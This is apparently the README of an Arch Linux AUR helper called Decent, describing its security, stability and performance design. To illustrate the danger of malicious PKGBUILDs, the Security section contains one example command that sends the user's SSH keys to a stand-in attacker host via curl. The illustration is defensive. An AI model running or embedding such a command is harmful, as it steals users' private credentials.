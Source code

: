 # Decent

A decent pacman wrapper and AUR helper for Arch Linux.

## Why Decent

### Security

**AUR Helpers shouldn't rely on `makepkg` parse PKGBUILDs in the running user
session**
This opens a huge door for malicious PKGBUILDs to run something like:

```bash
cat ~/.ssh/id_rsa ~/.ssh/id_rsa.pub | curl -X POST --data-binary @- http://malicious.example.com/ 2>&1 > /dev/null
```

Running `makepkg --printsrcinfo` with that on the PKGBUILD global scope will
silently allow malicious people to retrieve critical user information.

Instead, `decent` will source PKGBUILDs, when needed, using a restrictive bash
instance without using external user's environment.

**AUR Helpers should show PKGBUILD files before doing anything with it, by
default.**
To incentivize people reviewing the PKGBUILD files, by default, every PKGBUILD
that cames from AUR will be firstly presented to the user for inspection. This
option is opt-out and will prevent the installation of possible malicious
packages.

**AUR Helpers shouldn't require escalated privileges until it explicitly needs
them.**
Many AUR helpers use the so-called "sudo loop" to escalate privileges, when
needed. This shouldn't be a practice for a reason:

Imagine a AUR helper with "sudo loop" implementation and the package you want to
install has a make dependency. It will ask you, before building, for privileges
and then keep sudo timeout fresh. Whenever is a sudo inside of your building
process, it will execute the command without even asking.

**AUR Helpers should support isolated build.**
It's essencial to isolate builds as much as possible. One of the worst things of
building in the user environment is the usage of silent dependencies and
therefore, make packages really hard to reproduce. To achieve reproducibility,
`decent` runs `prepare()`, `build()` and `package()` in a isolatedcontainer with
the necessary dependencies.

### Stability

**AUR Helpers should be able to rebuild broken dependencies on update**
One thing crucial for AUR helpers is the ability to rebuild broken dependencies
on updates.

For example, if two packages depend on the same library, upgrading only
one package might also upgrade the library (as a dependency), which might then
break the other package which depends on an older version of the library.

Arch linux is a rolling release distribution which means that partial upgrades
are unsupported. When a new library versions are pushed to the repositories, the
packages that are dependent on should be rebuilt this situation.

`decent` has a pacman hook to rebuild AUR packages for you when things got
updated.

**AUR Helpers should has it's own database instead of doing partial updates**
Because Arch Linux doesn't support partial updates, as stated before, it's a
good practice to maintain a seperate pacman database to resolve AUR dependencies
instead of doing partially `-Sy` and `-Su`.

**AUR Helpers should be built in a well supported, readable and maintainable
programming language**
Another key for achieving stability is the usage of Python. We choose Python for
a reason. Easy to understand, easy to maintain and most importantly, has
official bindings support from Arch Linux for libalpm library. This will avoid
problems like this, when updating:

```
aur-helper: error while loading shared libraries: libalpm.so.XX: cannot open shared object file: No such file or directory
```

### Performance

**AUR Helpers should use caching techniques to speed-up builds**
Unlike other helpers, `decent` use some techniques to speed-up builds like
caching: Package repositories, Upstream sources and already built packages.

### Other features

- Support building local PKGBUILDs with AUR dependencies.
- Support building official packages from source.
- Show official Arch news before upgrading.
